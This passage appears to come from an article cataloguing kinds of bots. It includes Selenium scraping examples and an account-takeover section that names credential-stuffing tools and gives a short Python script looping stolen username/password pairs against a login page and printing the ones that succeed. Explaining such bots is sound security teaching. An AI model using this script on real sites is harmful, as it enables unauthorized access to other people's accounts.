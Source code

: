         for product in data['products']:
            print(f"Product: {product['name']}, Price: {product['price']}")
        {{< /highlight >}}

- **Headless Browsers:**

    - **Tools:** Headless Chrome, Puppeteer, Selenium
    - **Method:** Simulate user interactions in a browser without a graphical interface.
    - **Example:** Using Selenium to scrape a page in Python:
{{< highlight python >}}

from selenium import webdriver
from selenium.webdriver.chrome.options import Options

chrome_options = Options()
chrome_options.add_argument("--headless")
chrome_options.add_argument("--disable-gpu")

driver = webdriver.Chrome(options=chrome_options)
driver.get("https://example.com/products")

products = driver.find_elements_by_class_name('product')

for product in products:
    name = product.find_element_by_class_name('product-name').text
    price = product.find_element_by_class_name('product-price').text
    print(f'Product: {name}, Price: {price}')

driver.quit()
{{< /highlight >}}
## 2. Account Takeover (ATO) Bots

**Purpose:**

Gain unauthorized access to user accounts.

**Techniques:**

- **Credential Stuffing:**

    - **Method:** Using stolen credentials to attempt logins across multiple sites.
    - **Tools:** Sentry MBA, Snipr
    - **Example:** Automating login attempts using Python’s requests:

        {{< highlight python >}}
        import requests

        login_url = 'https://example.com/login'
        credentials = [
            {'username': 'user1', 'password': 'pass1'},
            {'username': 'user2', 'password': 'pass2'},
            # Add more credentials here
        ]

        for credential in credentials:
            response = requests.post(login_url, data=credential)
            if 'Welcome' in response.text:
                print(f'Successful login: {credential}')
        {{< /highlight >}}
